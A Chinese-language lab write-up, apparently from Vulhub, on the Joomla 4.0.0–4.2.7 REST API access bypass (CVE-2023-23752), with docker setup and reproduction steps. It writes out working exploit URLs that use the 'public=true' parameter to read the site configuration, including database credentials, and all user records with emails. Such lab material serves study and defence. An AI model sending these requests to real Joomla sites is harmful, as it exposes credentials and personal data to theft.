# Joomla权限绕过漏洞 CVE-2023-23752

## 漏洞描述

Joomla是一个开源免费的内容管理系统（CMS），基于PHP开发。

在其4.0.0版本到4.2.7版本中，存在一处属性覆盖漏洞，导致攻击者可以通过恶意请求绕过权限检查，访问任意Rest API。

参考链接：

- https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html
- https://xz.aliyun.com/t/12175
- https://vulncheck.com/blog/joomla-for-rce

## 环境搭建

Vulhub执行如下命令启动一个Joomla 4.2.7：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`即可查看到Joomla页面。

![image-20230410085613826](images/image-20230410085613826.png)

## 漏洞复现

这个漏洞是由于错误的属性覆盖导致的，攻击者可以通过在访问Rest API时传入参数`public=true`来绕过权限校验。

比如，访问下面这个链接即可读取所有配置项，包括数据库连接用户名和密码：

```
http://your-ip:8080/api/index.php/v1/config/application?public=true
```

![image-20230410085938073](images/image-20230410085938073.png)



如果不添加`public=true`，则访问会被拒绝：

![image-20230410090110901](images/image-20230410090110901.png)

访问下面这个链接即可读取所有用户信息，包含邮箱等：

```
http://your-ip:8080/api/index.php/v1/users?public=true
```